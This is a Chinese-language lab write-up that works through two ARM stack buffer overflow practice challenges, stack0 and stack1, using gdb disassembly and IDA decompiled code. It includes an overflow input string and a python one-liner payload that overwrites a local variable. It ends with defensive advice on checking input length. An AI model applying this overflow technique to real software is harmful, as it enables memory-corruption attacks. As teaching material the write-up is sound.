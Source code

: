 # arm栈溢出实验

## 实验概述

### 【目的】
1. 运行stack0，得到输出`you have changed the 'modified' variable`
2. 运行stack1，得到输出`you have correctly got the variable to the right value`
### 【环境】
Linux
### 【工具】
gdb
### 【原理】
缓冲区溢出（buffer overflow），是针对程序设计缺陷，向程序输入缓冲区写入使之溢出的内容（通常是超过缓冲区能保存的最大数据量的数据），从而破坏程序运行、趁著中断之际并获取程序乃至系统的控制权。
## 实验步骤

### 【步骤】
#### stack0
用file命令查看可执行文件类型。
```
$ file stack0
stack0: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, for GNU/Linux 2.6.32, BuildID[sha1]=1171fa6db1d5176af44d6d462427f8d244bd82c8, not stripped
```
使用gdb打开并调试
```
$ gdb stack0 -q
[*] No debugging session active
GEF for linux ready, type `gef' to start, `gef config' to configure
56 commands loaded for GDB 7.7.1 using Python engine 2.7
[*] 4 commands could not be loaded, run `gef missing` to know why.
Reading symbols from stack0...(no debugging symbols found)...done.
gef> r
Starting program: /home/pi/ARM-challenges/stack0 
123
Try again?
[Inferior 1 (process 17040) exited normally]

```
程序让我们输入一行字符串,反汇编看一下main函数
```
gef> disass main
Dump of assembler code for function main:
   0x0001044c <+0>:	push	{r11, lr}
   0x00010450 <+4>:	add	r11, sp, #4
   0x00010454 <+8>:	sub	sp, sp, #80	; 0x50
   0x00010458 <+12>:	str	r0, [r11, #-80]	; 0x50
   0x0001045c <+16>:	str	r1, [r11, #-84]	; 0x54
   0x00010460 <+20>:	mov	r3, #0
   0x00010464 <+24>:	str	r3, [r11, #-8]
   0x00010468 <+28>:	sub	r3, r11, #72	; 0x48
   0x0001046c <+32>:	mov	r0, r3
   0x00010470 <+36>:	bl	0x102e8
   0x00010474 <+40>:	ldr	r3, [r11, #-8]
   0x00010478 <+44>:	cmp	r3, #0
   0x0001047c <+48>:	beq	0x1048c <main+64>
   0x00010480 <+52>:	ldr	r0, [pc, #24]	; 0x104a0 <main+84>
   0x00010484 <+56>:	bl	0x102f4
   0x00010488 <+60>:	b	0x10494 <main+72>
   0x0001048c <+64>:	ldr	r0, [pc, #16]	; 0x104a4 <main+88>
   0x00010490 <+68>:	bl	0x102f4
   0x00010494 <+72>:	mov	r0, r3
   0x00010498 <+76>:	sub	sp, r11, #4
   0x0001049c <+80>:	pop	{r11, pc}
   0x000104a0 <+84>:	andeq	r0, r1, r12, lsl r5
   0x000104a4 <+88>:	andeq	r0, r1, r8, asr #10
End of assembler dump.
```
可以看到，这里的反汇编代码是arm架构的，与x86架构下的汇编指定不尽相同。
在main+40处有一条cmp指令，看起来像是判断的关键，在main+20处它被置为0，这里我们尝试溢出来修改到局部变量的值。
```
gef> r
Starting program: /home/pi/ARM-challenges/stack0 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Try again?
[Inferior 1 (process 17248) exited normally]

```
失败，这里再尝试用更长的字符串。
```
gef> r
Starting program: /home/pi/ARM-challenges/stack0 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
you have changed the 'modified' variable
```
成功。
#### stack1
```
$ file stack1
stack1: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, for GNU/Linux 2.6.32, BuildID[sha1]=4e3ac40ad07cec98f04bbdff5d66b69b9fc1b66d, not stripped
```
这里也是一个arm程序。
用ida pro打开
```
$ gdb stack1 -q
[*] No debugging session active
GEF for linux ready, type `gef' to start, `gef config' to configure
56 commands loaded for GDB 7.7.1 using Python engine 2.7
[*] 4 commands could not be loaded, run `gef missing` to know why.
Reading symbols from stack1...(no debugging symbols found)...done.
gef> disass main
Dump of assembler code for function main:
   0x000104b0 <+0>:	push	{r11, lr}
   0x000104b4 <+4>:	add	r11, sp, #4
   0x000104b8 <+8>:	sub	sp, sp, #80	; 0x50
   0x000104bc <+12>:	str	r0, [r11, #-80]	; 0x50
   0x000104c0 <+16>:	str	r1, [r11, #-84]	; 0x54
   0x000104c4 <+20>:	ldr	r3, [r11, #-80]	; 0x50
   0x000104c8 <+24>:	cmp	r3, #1
   0x000104cc <+28>:	bne	0x104dc <main+44>
   0x000104d0 <+32>:	mov	r0, #1
   0x000104d4 <+36>:	ldr	r1, [pc, #92]	; 0x10538 <main+136>
   0x000104d8 <+40>:	bl	0x10370
   0x000104dc <+44>:	mov	r3, #0
   0x000104e0 <+48>:	str	r3, [r11, #-8]
   0x000104e4 <+52>:	ldr	r3, [r11, #-84]	; 0x54
   0x000104e8 <+56>:	add	r3, r3, #4
   0x000104ec <+60>:	ldr	r3, [r3]
   0x000104f0 <+64>:	sub	r2, r11, #72	; 0x48
   0x000104f4 <+68>:	mov	r0, r2
   0x000104f8 <+72>:	mov	r1, r3
   0x000104fc <+76>:	bl	0x10340
   0x00010500 <+80>:	ldr	r3, [r11, #-8]
   0x00010504 <+84>:	ldr	r2, [pc, #48]	; 0x1053c <main+140>
   0x00010508 <+88>:	cmp	r3, r2
   0x0001050c <+92>:	bne	0x1051c <main+108>
   0x00010510 <+96>:	ldr	r0, [pc, #40]	; 0x10540 <main+144>
   0x00010514 <+100>:	bl	0x1034c
   0x00010518 <+104>:	b	0x1052c <main+124>
   0x0001051c <+108>:	ldr	r3, [r11, #-8]
   0x00010520 <+112>:	ldr	r0, [pc, #28]	; 0x10544 <main+148>
   0x00010524 <+116>:	mov	r1, r3
   0x00010528 <+120>:	bl	0x10334
   0x0001052c <+124>:	mov	r0, r3
   0x00010530 <+128>:	sub	sp, r11, #4
   0x00010534 <+132>:	pop	{r11, pc}
   0x00010538 <+136>:			; <UNDEFINED> instruction: 0x000105bc
   0x0001053c <+140>:	cmnvs	r2, r4, ror #6
   0x00010540 <+144>:	ldrdeq	r0, [r1], -r8
   0x00010544 <+148>:	andeq	r0, r1, r0, lsl r6
End of assembler dump.
```
在main+88处有关键的判断逻辑，这里不是很好看，切到ida pro。
```c
nt __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // r3@4
  char dest; // [sp+Ch] [bp-48h]@3
  int v6; // [sp+4Ch] [bp-8h]@3

  if ( argc == 1 )
    errx(1, "please specify an argument\n", envp);
  v6 = 0;
  strcpy(&dest, argv[1]);
  if ( v6 == 1633837924 )
    puts("you have correctly got the variable to the right value");
  else
    printf("Try again, you got 0x%08x\n", v6);
  return v3;
}
```
可以看到这里把作为参数的字符串复制到了变量&dest上：`strcpy(&dest, argv[1]);`
那么我们在运行程序时给出超过dest字符数组长度的参数即可发生溢出，这里我们需要覆盖v5等于`"abcd"`。
经过计算，有：
```
$ python -c "print 'A'*64+'\x64\x63\x62\x61'" | xargs ./stack1
you have correctly got the variable to the right value

```
这里的 xargs 表示输入数据作为参数。
### 【总结】

本次实验主要体验arm环境下栈溢出的发生场景，并尝试通过栈溢出覆盖（修改）相邻的变量，达到改变程序执行流的目的。
可以发现，要使栈溢出发生，要满足以下条件：


- 程序允许用户输入
- 程序对用户的输入长度不加检查

栈溢出攻击是最为普遍而又危害极大的漏洞，要防御栈溢出攻击，首先要有良好的编码功力，对于用户的输入数据要做严格的长度检查，避免使用危险的函数。
